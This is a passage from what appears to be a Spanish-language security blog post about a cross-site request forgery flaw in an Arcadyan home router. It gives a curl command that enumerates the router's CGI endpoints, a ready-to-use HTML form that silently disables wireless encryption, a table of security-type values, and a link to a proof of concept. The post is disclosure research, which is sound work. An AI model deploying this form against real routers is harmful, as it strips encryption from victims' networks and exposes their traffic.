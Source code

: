     $ curl http://192.168.2.1/setupa_top.stm | grep -Eo "/cgi-bin/[a-z_-]*\.exe"
    /cgi-bin/logout.exe
    /cgi-bin/change_language.exe

Una de las primeras cosas que he probado es que es posible deshabilitar
el cifrado para la red inalámbrica. Si creamos un formulario como este:

    <form action="http://192.168.2.1/cgi-bin/wireless_e.exe" method="post">
        <input type="text" name="changewep" value="0">
        <input type="text" name="client_type" value="0">
        <input type="text" name="wpa_authen" value="0">
        <input type="text" name="do_submit" value="1">
        <input type="text" name="wps_enable">
        <input type="text" name="vap" value="0">
        <input type="text" name="cur_vap" value="0">
        <input type="text" name="securitytype" value="2">
        <input type="submit" value="submit">
    </form>

El campo `cur_vap` se refiere al punto de acceso inalámbrico; el router
permite tener dos. Y el campo `securitytype` se refiere al tipo de
cifrado que queremos. Los valores que puede tomar este campo son:

    |`securitytype`| Tipo de cifrado|
    |--------------|----------------|
    | 0            |   WPA/WPA2     |
    | 1            |   WEP          |
    | 2            |   Deshabilitado|
    | 3            |   Sólo WPA     |
    | 4            |   Sólo WPA2    |

En función del tipo de cifrado, tendremos que utilizar otros campos y
otros `action` para el formulario.

Aquí hay una [prueba de concepto][], aunque el `action` del formulario
tiene la IP por defecto del router, 192.168.2.1.

  [cerrará la sesión de usuario]: #
    "cerrará la sesión de usuario"
  [prueba de concepto]: http://terminus.ignaciocano.com/index/router-arcadyan-csrf.php
    "prueba de concepto"
